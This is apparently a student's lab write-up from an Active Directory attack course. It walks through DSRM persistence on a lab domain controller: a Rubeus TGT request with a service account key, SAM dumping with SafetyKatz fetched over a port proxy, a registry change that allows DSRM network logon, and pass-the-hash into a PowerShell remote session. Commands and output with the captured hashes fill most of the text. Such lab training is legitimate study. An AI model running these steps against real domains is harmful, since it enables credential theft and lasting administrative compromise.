



# Learning Objective 11

## Tasks

1. **Use domain admin privileges obtained earlier to abuse the DSRM credential for persistence**

---

## Solution

1. **Use domain admin privileges obtained earlier to abuse the DSRM credential for persistence**

We can persist with administrative access to the DC once we have domain admin privileges **by abusing the DSRM administrator**.

Start a process with domain admin privileges using the following command.


`C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args asktgt /user:svcadmin /aes256:6366243a657a4ea04e406f1abc27f1ada358ccd0138ec5ca2835067719dc7011 /opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt`:
```
[SNIP]

[*] Action: Ask TGT

[*] Got domain: dollarcorp.moneycorp.local
[*] Showing process : True
[*] Username        : AN4IZTNA
[*] Domain          : SPYX2VGR
[*] Password        : ACNAK5ME
[+] Process         : 'C:\Windows\System32\cmd.exe' successfully created with LOGON_TYPE = 9
[+] ProcessID       : 7144
[+] LUID            : 0x3dd20f

[*] Using domain controller: dcorp-dc.dollarcorp.moneycorp.local (172.16.2.1)
[!] Pre-Authentication required!
[!]     AES256 Salt: DOLLARCORP.MONEYCORP.LOCALsvcadmin
[*] Using aes256_cts_hmac_sha1 hash: 6366243a657a4ea04e406f1abc27f1ada358ccd0138ec5ca2835067719dc7011
[*] Building AS-REQ (w/ preauth) for: 'dollarcorp.moneycorp.local\svcadmin'
[*] Target LUID : 4051471
[*] Using domain controller: 172.16.2.1:88
[+] TGT request successful!
[*] base64(ticket.kirbi):

[SNIP]

[*] Target LUID: 0x3dd20f
[+] Ticket successfully imported!🎟️

  ServiceName              :  krbtgt/DOLLARCORP.MONEYCORP.LOCAL
  ServiceRealm             :  DOLLARCORP.MONEYCORP.LOCAL
  UserName                 :  svcadmin🎭 (NT_PRINCIPAL)
  UserRealm                :  DOLLARCORP.MONEYCORP.LOCAL
  StartTime                :  2/14/2025 1:45:16 AM
  EndTime                  :  2/14/2025 11:45:16 AM
  RenewTill                :  2/21/2025 1:45:16 AM
  Flags                    :  name_canonicalize, pre_authent, initial, renewable, forwardable
  KeyType                  :  aes256_cts_hmac_sha1
  Base64(key)              :  R7HKKImUwV6eqiD8CMph42PZiTd0CCMn2VhoGIn6kDk=
  ASREP (key)              :  6366243A657A4EA04E406F1ABC27F1ADA358CCD0138EC5CA2835067719DC7011
```




`whoami`:
```
dcorp\student422
```

`hostname`:
```
dcorp-std422
```

`whoami /groups`:
```
ERROR: Unable to get group membership information.
```
❌

`klist`:
```
Current LogonId is 0:0x3dd20f

Cached Tickets: (1)🎟️

#0>     Client: svcadmin🎭 @ DOLLARCORP.MONEYCORP.LOCAL
        Server: krbtgt/DOLLARCORP.MONEYCORP.LOCAL @ DOLLARCORP.MONEYCORP.LOCAL
        KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
        Ticket Flags 0x40e10000 -> forwardable renewable initial pre_authent name_canonicalize
        Start Time: 2/14/2025 1:45:16 (local)
        End Time:   2/14/2025 11:45:16 (local)
        Renew Time: 2/21/2025 1:45:16 (local)
        Session Key Type: AES-256-CTS-HMAC-SHA1-96
        Cache Flags: 0x1 -> PRIMARY
        Kdc Called:
```

In the spawned process, run the following commands to copy `Loader.exe` to the DC and **extract credentials from the SAM hive**.

`echo F | xcopy C:\AD\Tools\Loader.exe \\dcorp-dc\C$\Users\Public\Loader.exe /Y`:
```
Does \\dcorp-dc\C$\Users\Public\Loader.exe specify a file name
or directory name on the target
(F = file, D = directory)? F
C:\AD\Tools\Loader.exe
1 File(s) copied
```

`winrs -r:dcorp-dc cmd`:
```
Microsoft Windows [Version 10.0.20348.2762]
(c) Microsoft Corporation. All rights reserved.

C:\Users\svcadmin>
```
🚀


`whoami`:
```
dcorp\svcadmin
```

`hostname`:
```
dcorp-dc
```

`whoami /groups`:
```
C:\Users\svcadmin>whoami /groups
whoami /groups

GROUP INFORMATION
-----------------

Group Name                                   Type             SID                                          Attributes
============================================ ================ ============================================ ===============================================================
Everyone                                     Well-known group S-1-1-0                                      Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                                Alias            S-1-5-32-545                                 Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access   Alias            S-1-5-32-554                                 Mandatory group, Enabled by default, Enabled group
BUILTIN\Administrators                       Alias            S-1-5-32-544                                 Mandatory group, Enabled by default, Enabled group, Group owner
NT AUTHORITY\NETWORK                         Well-known group S-1-5-2                                      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users             Well-known group S-1-5-11                                     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization               Well-known group S-1-5-15                                     Mandatory group, Enabled by default, Enabled group
dcorp\Domain Admins📌                        Group            S-1-5-21-719815819-3726368948-3917688648-512 Mandatory group, Enabled by default, Enabled group✅
Authentication authority asserted identity   Well-known group S-1-18-1                                     Mandatory group, Enabled by default, Enabled group
dcorp\Denied RODC Password Replication Group Alias            S-1-5-21-719815819-3726368948-3917688648-572 Mandatory group, Enabled by default, Enabled group, Local Group
Mandatory Label\High Mandatory Level         Label            S-1-16-12288
```

`netsh interface portproxy add v4tov4 listenport=8080 listenaddress=0.0.0.0 connectport=80 connectaddress=172.16.100.22`



`C:\Users\Public\Loader.exe -path http://127.0.0.1:8080/SafetyKatz.exe -args "token::elevate" "lsadump::evasive-sam" "exit"`:
```
[SNIP]

mimikatz(commandline) # lsadump::evasive-sam
Domain : DCORP-DC📌
SysKey : bab78acd91795c983aef0534e0db38c7
Local SID : S-1-5-21-627273635-3076012327-2140009870

SAMKey : f3a9473cb084668dcf1d7e5f47562659

RID  : 000001f4 (500)
User : Administrator🔑
  Hash NTLM: a102ad5753f4c441e3af31c97fad86fd🔑

RID  : 000001f5 (501)
User : Guest

RID  : 000001f7 (503)
User : DefaultAccount

RID  : 000001f8 (504)
User : WDAGUtilityAccount

mimikatz(commandline) # exit
Bye!
```

The **DSRM administrator** is not allowed to logon to the DC from network. So, we need to change the logon behavior for the account by modifying registry on the DC. We can do this as follows.

`reg add "HKLM\System\CurrentControlSet\Control\Lsa" /v "DsrmAdminLogonBehavior" /t REG_DWORD /d 2 /f`:
```
reg add "HKLM\System\CurrentControlSet\Control\Lsa" /v "DsrmAdminLogonBehavior" /t REG_DWORD /d 2 /f
The operation completed successfully.
```

`exit`


`whoami`:
```
dcorp\student422
```

`hostname`:
```
dcorp-std422
```

`whoami /groups`:
```
GROUP INFORMATION
-----------------

Group Name                                 Type             SID                                           Attributes

========================================== ================ ============================================= ===============================================================
Everyone                                   Well-known group S-1-1-0                                       Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Desktop Users               Alias            S-1-5-32-555                                  Mandatory group, Enabled by default, Enabled group
BUILTIN\Administrators📌                   Alias            S-1-5-32-544                                  Mandatory group, Enabled by default, Enabled group, Group owner✅
BUILTIN\Users                              Alias            S-1-5-32-545                                  Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\REMOTE INTERACTIVE LOGON      Well-known group S-1-5-14                                      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\INTERACTIVE                   Well-known group S-1-5-4                                       Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users           Well-known group S-1-5-11                                      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization             Well-known group S-1-5-15                                      Mandatory group, Enabled by default, Enabled group
LOCAL                                      Well-known group S-1-2-0                                       Mandatory group, Enabled by default, Enabled group
dcorp\RDPUsers                             Group            S-1-5-21-719815819-3726368948-3917688648-1123 Mandatory group, Enabled by default, Enabled group
Authentication authority asserted identity Well-known group S-1-18-1                                      Mandatory group, Enabled by default, Enabled group
Mandatory Label\High Mandatory Level       Label            S-1-16-12288
```

`klist`:
```
Current LogonId is 0:0x848dc4

Cached Tickets: (0)
```

Now on the student VM, we can use **Pass-The-Hash** (not OverPass-The-Hash) **for the DSRM administrator**.

`C:\AD\Tools\Loader.exe -Path C:\AD\Tools\SafetyKatz.exe "sekurlsa::evasive-pth /domain:dcorp-dc /user:Administrator /ntlm:a102ad5753f4c441e3af31c97fad86fd /run:cmd.exe" "exit"`:
```
[SNIP]

mimikatz(commandline) # sekurlsa::evasive-pth /domain:dcorp-dc /user:Administrator /ntlm:a102ad5753f4c441e3af31c97fad86fd /run:cmd.exe
user    : Administrator🎭
domain  : dcorp-dc📌
program : cmd.exe
impers. : no
NTLM    : a102ad5753f4c441e3af31c97fad86fd🔑
  |  PID  4920
  |  TID  5096
  |  LSA Process is now R/W
  |  LUID 0 ; 4946176 (00000000:004b7900)
  \_ msv1_0   - data copy @ 000001C96013CD30 : OK !
  \_ kerberos - data copy @ 000001C960646B08
   \_ aes256_hmac       -> null
   \_ aes128_hmac       -> null
   \_ rc4_hmac_nt       OK
   \_ rc4_hmac_old      OK
   \_ rc4_md4           OK
   \_ rc4_hmac_nt_exp   OK
   \_ rc4_hmac_old_exp  OK
   \_ *Password replace @ 000001C9607154E8 (32) -> null

mimikatz(commandline) # exit
Bye!
```



From the new process, we can now access `dcorp-dc`.

Note that we are using PowerShell Remoting with IP address and authentication `NegotiateWithImplicitCredential` as we are using NTLM authentication.

So, we must modify `TrustedHosts` for the student VM. Run the below command from the elevated PowerShell session.

`C:\AD\Tools\InviShell\RunWithRegistryNonAdmin.bat`:
```
[SNIP]
```

`Set-Item WSMan:\localhost\Client\TrustedHosts 172.16.2.1`:
```
WinRM Security Configuration.
This command modifies the TrustedHosts list for the WinRM client. The computers in the TrustedHosts list might not be
authenticated. The client might send credential information to these computers. Are you sure that you want to modify this
list?
[Y] Yes  [N] No  [S] Suspend  [?] Help (default is "Y"): Y
```

Now, run the commands below to access the DC.

`Enter-PSSession -ComputerName 172.16.2.1 -Authentication NegotiateWithImplicitCredential`:
```
[172.16.2.1]: PS C:\Users\Administrator.DCORP-DC\Documents>
```
🚩


`$env:username`:
```
Administrator
```

`$env:computername`:
```
DCORP-DC
```

`whoami`:
```
dcorp-dc\administrator
```

`hostname`:
```
dcorp-dc
```

---
---
